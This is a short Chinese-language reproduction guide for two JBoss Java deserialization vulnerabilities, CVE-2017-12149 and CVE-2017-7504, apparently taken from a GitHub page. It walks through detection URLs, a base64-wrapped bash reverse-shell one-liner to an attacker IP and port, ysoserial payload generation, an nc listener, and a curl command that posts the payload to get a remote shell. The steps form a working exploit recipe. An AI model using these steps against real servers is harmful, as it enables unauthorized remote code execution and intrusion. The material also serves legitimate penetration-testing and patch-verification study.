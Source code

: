 #漏洞1 jboss 反序列化命令执行漏洞 （CVE-2017-12149）

漏洞简介：
JBoss Application Server 反序列化命令执行漏洞（CVE-2017-12149），远程攻击者利用漏洞可以在未经过任何身份验证的服务器主机上执行任意代码。漏洞为高。该漏洞为java反序列化错误类型，存在于jboss的HttpInvoker组件中的ReadOnlyAccessFilter过滤器没有经过任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

影响范围：
JBoss 5.x
JBoss 6.x

漏洞复现：
1. 访问ip:port/invoker/readonly。返回状态码为500的报错页面，则证明漏洞存在

2. 正常的bash会被分割，如” bash -i >& /dev/tcp/Attack_ip/Attack_port 0>&1” 会被分割成一个一个单词。所以我们对上边的内容进行base64编码。

3. 然后生成poc代码：
java  -jar  ysoserial.jar  CommonsCollections1 "bash -c {echo,base64编码后的内容}|{base64,-d}|{bash,-i}" > poc.ser

ysoserial.jar下载地址：https://github.com/frohoff/ysoserial

5. 本地监听，nc -lvp 8888

6. 执行poc即可获取shell
curl http://ip:port/invoker/readonly --data-binary @poc.ser

#漏洞2 JBossMQ JM 反序列化漏洞 （CVE-2017-7504）

漏洞介绍：
Red Hat JBoss Application Server（AS，也称WildFly）是美国红帽（Red Hat）公司的一款基于JavaEE的开源的应用服务器，它具有启动超快、轻量、模块化设计、热部署和并行部署、简洁管理、域管理及第一类元件等特性。Jboss AS 4.x及之前版本中,JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞,远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

影响版本：
4.x及以下

漏洞复现：
1. 访问下边页面
http://ip:port/jbossmq-httpil/HTTPServerILServlet
如果出现则代表存在漏洞

其他复现和上边2之后一样


